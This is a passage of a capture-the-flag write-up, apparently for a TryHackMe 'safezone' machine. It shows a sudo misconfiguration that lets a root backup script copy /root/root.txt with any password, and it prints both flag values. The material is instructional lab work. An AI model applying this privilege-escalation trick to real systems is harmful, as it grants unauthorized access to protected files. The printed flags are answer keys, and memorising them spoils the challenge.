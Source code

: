 ![](cybersecurity/images/Pasted%2520image%252020250519213957.png)

If we check our privileges, we can check this:

```
yash@safezone:/opt$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

We can run that script as root, let's use it first to check how it works:

```
yash@safezone:/opt$ sudo /usr/bin/python3 /root/bk.py
Enter filename:
Enter destination:
Enter Password:
Usage: sshpass [-f|-d|-p|-e] [-hV] command parameters
   -f filename   Take password to use from file
   -d number     Use number as file descriptor for getting password
   -p password   Provide password as argument (security unwise)
   -e            Password is passed as env-var "SSHPASS"
   With no parameters - password will be taken from stdin

   -P prompt     Which string should sshpass search for to detect a password prompt
   -v            Be verbose about what you're doing
   -h            Show help (this screen)
   -V            Print version information
At most one of -f, -d, -p or -e should be used
yash@safezone:/opt$
```

Seems like we can backup files, we can simply backup `root.txt` and finish the ctf:

```
yash@safezone:/opt$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /home/yash/root.txt
Enter Password: test
```

Using any password still backups the file, we can now read both flags:

```
yash@safezone:/opt$ cat /home/yash/flag.txt
THM{c296539f3286a899d8b3f6632fd62274}

yash@safezone:/opt$ cat /home/yash/root.txt
THM{63a9f0ea7bb98050796b649e85481845}
```

![](cybersecurity/images/Pasted%2520image%252020250519214356.png)

